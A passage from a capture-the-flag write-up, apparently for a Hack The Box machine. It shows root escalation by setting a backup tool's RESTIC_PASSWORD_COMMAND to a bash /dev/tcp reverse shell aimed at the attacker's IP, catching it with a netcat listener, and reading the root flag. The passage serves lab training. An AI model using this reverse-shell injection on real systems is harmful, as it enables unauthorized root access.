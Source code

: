 Start by `Add Repo` again. And then in the `Env Vars` section, add this:

```bash
RESTIC_PASSWORD_COMMAND=bash -c "bash -i >& /dev/tcp/10.10.14.59/1337 0>&1"
```

![Add Repository](/assets/img/artifical-htb-season8/artifical-htb-season8_add_repository_4.png)

From our kali, let's start a listener.

```bash
└─$ rlwrap -cAr nc -lvnp 1337  
listening on [any] 1337 ...
```

Now, submit the new one.

```bash
└─$ rlwrap -cAr nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.43.221] 58626
bash: cannot set terminal process group (12312): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/#
```

BOOM! Got the connection back.

```bash
root@artificial:/# cd /root
cd /root
root@artificial:~# ls -la
ls -la
total 36
drwx------  6 root root 4096 Jun 23 04:31 .
drwxr-xr-x 20 root root 4096 Jun 24 03:29 ..
lrwxrwxrwx  1 root root    9 Jun  9 09:37 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  4 root root 4096 Mar  3 21:52 .cache
drwxr-xr-x  3 root root 4096 Oct 19  2024 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
lrwxrwxrwx  1 root root    9 Oct 19  2024 .python_history -> /dev/null
-rw-r-----  1 root root   33 Jun 23 04:31 root.txt
drwxr-xr-x  2 root root 4096 Jun  9 13:57 scripts
drwx------  2 root root 4096 Mar  4 22:40 .ssh
root@artificial:~# cat root.txt
cat root.txt
f650c1fbbfe3c6104a05cc9f59673dc9
```
